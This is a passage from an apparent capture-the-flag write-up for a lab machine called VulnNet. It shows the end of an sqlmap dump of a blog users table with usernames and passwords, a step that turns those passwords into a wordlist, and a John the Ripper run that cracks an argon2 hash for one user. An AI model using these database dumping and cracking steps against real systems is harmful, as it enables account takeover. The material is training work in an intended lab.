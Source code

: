 ```bash
| bmarrinerhl        | yoJwhOI             |
| ataillanthm        | tfncTGLw            |
| acassamhn          | dBcYuQwU            |
| kfruchonho         | s6QjWpLo            |
| kdenyakinhp        | LTbmsk6T            |
| mhundyhq           | xrbjFjA8p           |
| zcatchesidehr      | gaMmTSLHkMZE        |
| anorcrosshs        | VH3FsbYfk           |
| kklavesht          | YY6hmavoD           |
| bloghanhu          | kElKt4              |
| ekayzerhv          | 4eHrdt5Z            |
| jovenhw            | 2QZrPJ2             |
| gboayshx           | t0xmZtLTXa          |
| asuermeiershy      | 09jD21OoQ           |
| msambidgehz        | OBJZD6f             |
| bhuertai0          | Cc4QOkuSvrF         |
| oboatmani1         | kSKBUj8             |
| rtamblingi2        | BIkqvmX             |
+--------------------+---------------------+

[xx:xx:xx] [INFO] table 'blog.users' dumped to CSV file '/root/.sqlmap/output/api.vulnnet.thm/dump/blog/users.csv'
```

<br>
<h2>passwords.txt</h2>

```bash
:~# cat /root/.sqlmap/output/api.vulnnet.thm/dump/blog/users.csv | cut -d "," -f2 > passwords.txt
```

```bash
:~# tail -n 6 passwords.txt
09jD21OoQ
OBJZD6f
Cc4QOkuSvrF
kSKBUj8
BIkqvmX
```

<br>
<h2>John the Ripper</h2>

<p>

- chris_w : ***********</p>

```bash
:~# john --wordlist=passwords.txt Hash
Using default input encoding: UTF-8
Loaded 1 password hash (argon2 [Blake2 AVX])
Cost 1 (t) is 16 for all loaded hashes
Cost 2 (m) is 65536 for all loaded hashes
Cost 3 (p) is 2 for all loaded hashes
Cost 4 (type [0:Argon2d 1:Argon2i]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********      (?)
1g 0:00:01:14 DONE (2025-09-14 xx:xx) 0.01347g/s 1.725p/s 1.725c/s 1.725C/s selW0qQ4..Z2WgzYZCK
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

